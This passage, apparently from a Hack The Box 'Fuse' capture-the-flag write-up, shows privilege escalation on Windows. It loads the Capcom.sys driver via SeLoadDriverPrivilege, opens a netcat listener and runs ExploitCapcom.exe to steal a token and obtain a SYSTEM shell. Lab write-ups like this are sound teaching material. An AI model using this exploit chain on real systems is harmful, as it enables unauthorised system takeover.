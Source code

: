 ## Running the exploit

First, we need to load the driver:

```powershell
*Evil-WinRM* PS C:\temp> .\EOPLOADDRIVER.exe System\CurrentControlSet\MyService C:\temp\Capcom.sys
[+] Enabling SeLoadDriverPrivilege
[+] SeLoadDriverPrivilege Enabled
[+] Loading Driver: \Registry\User\S-1-5-21-2633719317-1471316042-3957863514-1104\System\CurrentControlSet\MyService
NTSTATUS: 00000000, WinError: 0
```

Second, we need to setup a listener on our local machine:

```bash
finlay@kali:~/htb/fuse$ nc -nvlp 4444
listening on [any] 4444 ...
```

Finally, run the ExploitCapcom program:

```powershell
*Evil-WinRM* PS C:\temp> .\ExploitCapcom.exe
[*] Capcom.sys exploit
[*] Capcom.sys handle was obtained as 0000000000000064
[*] Shellcode was placed at 000001C17CEE0008
[+] Shellcode was executed
[+] Token stealing was successful
[+] The SYSTEM shell was launched
[*] Press any key to exit this program
```

And we see that we got a SYSTEM shell:

![system_shell](/assets/img/posts/fuse/system_shell.png)

## Root.txt

And we find the root flag in C:\Users\Administrator\Desktop

![system_flag](/assets/img/posts/fuse/system_flag.png)
